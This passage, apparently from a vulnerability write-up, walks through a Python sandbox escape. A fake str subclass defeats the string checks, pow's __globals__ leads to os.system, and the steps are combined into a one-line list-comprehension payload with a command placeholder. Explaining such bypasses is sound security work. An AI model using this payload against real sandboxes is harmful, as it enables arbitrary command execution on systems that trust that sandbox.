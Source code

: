 In Python, every function remembers where it came from using `__globals__`, (remember I said this above.) Well inside the sandbox, "safe" functions like `pow()` still remember their `__globals__` which means we can use our Word class (which has all the sneaky bypasses) to access these `__globals__` and in turn call these functions that are inherently part of them.

We use our Word class to ask:

```python
globalsattr = Word('__globals__')
glbs = getattr(pow, globalsattr)
```

Now we have the sandbox’s globals! We can do the following.

```python
glbs['os'].system('calc.exe')  # 🎉 Calculator opens!
```


#### Step 4: Put it all in one line: {#step-4-put-it-all-in-one-line}

So now we have all the relevant parts of the bypass made.
However, the sandbox only allows single-line expressions, so we can’t write normal multi-line Python code.

To get around this, we use a list comprehension, which lets us run multiple things inside a single line.

One odd thing to note: with list comprehensions like:

```python
[print(x) for x in ['Hello']]
```

Python reads the innermost part first, and then moves outward — so it can feel like you’re reading from the bottom up.

So, the full attack looks like:

```python
[
  [
    # Run the command using system()
    getattr(pow, Word('__globals__'))['os'].system('[maliciousCommandHere]')

    # Create the fake "Word" class to trick the sandbox
    for Word in [
      orgTypeFun(
        'Word',
        (str,),
        {
          'mutated': 1,
          'startswith': lambda self, x: False,
          '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x,
          'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
          '__hash__': lambda self: hash(str(self))
        }
      )
    ]
  ]

  # Recover the real type() function
  for orgTypeFun in [type(type(1))]
]
```
